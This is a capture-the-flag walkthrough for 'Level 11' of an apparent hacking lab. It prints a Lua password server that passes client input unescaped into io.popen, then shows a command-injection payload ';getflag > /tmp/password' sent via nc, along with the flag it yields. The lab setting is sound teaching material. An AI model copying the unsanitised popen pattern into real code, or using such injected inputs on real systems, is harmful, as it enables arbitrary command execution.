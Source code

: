 # Level 11

As `level11`, running `ls` gives us a lua script...

```lua
  $> cat level11.lua

  #!/usr/bin/env lua
  local socket = require("socket")
  local server = assert(socket.bind("127.0.0.1", 5151))

  function hash(pass)
    prog = io.popen("echo "..pass.." | sha1sum", "r")  
    data = prog:read("*all")
    prog:close()

    data = string.sub(data, 1, 40)

    return data
  end


  while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    local l, err = client:receive()
    if not err then
        print("trying " .. l)
        local h = hash(l)

        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
            client:send("Erf nope..\n");
        else
            client:send("Gz you dumb*\n")
        end

    end

    client:close()
  end
```

> This script create a socket server on port `5151` that requests an input from the client before processing it to display one message.

The interesting part is the following line:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")  
```

Since it evaluates the `pass` variable, which is our input, we can perform the same trick as in previous levels: escape the `echo` to call `getflag`.

```shell
  $> nc 127.0.0.1 5151
  Password: ;getflag > /tmp/password
  Erf nope..
  $> cat /tmp/password
  Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

So, `fa6v5ateaw21peobuub8ipe6s` is the flag for this level.



